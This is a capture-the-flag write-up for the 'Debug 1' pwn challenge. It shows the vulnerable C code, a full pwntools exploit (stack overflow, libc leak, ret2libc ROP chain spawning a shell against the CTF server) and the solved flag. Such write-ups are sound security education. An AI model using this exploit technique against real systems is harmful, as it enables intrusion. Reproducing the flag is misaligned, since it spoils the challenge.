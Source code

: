 https://ctftime.org/event/2681

# Debug 1 (pwn)

Author: FlamePyromancer

I made a program which inverts the capitalization of letters! Surely there's nothing insecure with the program, right?

## Analysis

```bash
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

We can see the following code in `debug` gives us a `libc.so.6` leak and lets us control a lot of the stack:

```c
printf("libc leak: %lx\n", system);

puts("Leave a message here (max: 80 characters)!");
char message[80];

read(0, message, 800);
```

## Solution

1) Leak address from `libc.so.6` to bypass ASLR by returning into `debug`
2) ret2libc

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./debug-1_patched", checksec=False)
context.binary = elf
context.terminal = ["tmux", "splitw", "-h"]

libc = ELF("./libc.so.6", checksec=False)

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("tamuctf.com", 443, ssl=True, sni="tamuctf_debug-1")

p.sendlineafter(b"3: Exit\n\n", str(1).encode())

payload = b""
payload += b"A" * 0x58
payload += p64(elf.sym["debug"]+1)
p.sendlineafter(b"characters):\n\n", payload)

p.sendlineafter(b"well :) )\n", str(1).encode())

p.readuntil(b"libc leak: ")
leak = int(p.readline().decode(), 16)
libc.address = leak - libc.sym["system"]

rop = ROP(libc)
rop.raw(b"A" * 0x68)
rop.rdi = p64(next(libc.search(b"/bin/sh\x00")))
rop.raw(p64(rop.find_gadget(['ret']).address)) # stack aligning ret
rop.call("system")
p.sendline(rop.chain())

p.sendline(b"/bin/cat flag.txt")
p.readuntil(b"gigem{")
print("gigem{" + p.readuntil(b"}").decode()) # gigem{d3bUg61ng_n3w_c0d3_a24dcfe3}
```

## Flag
`gigem{d3bUg61ng_n3w_c0d3_a24dcfe3}`

smiley 2025/03/29
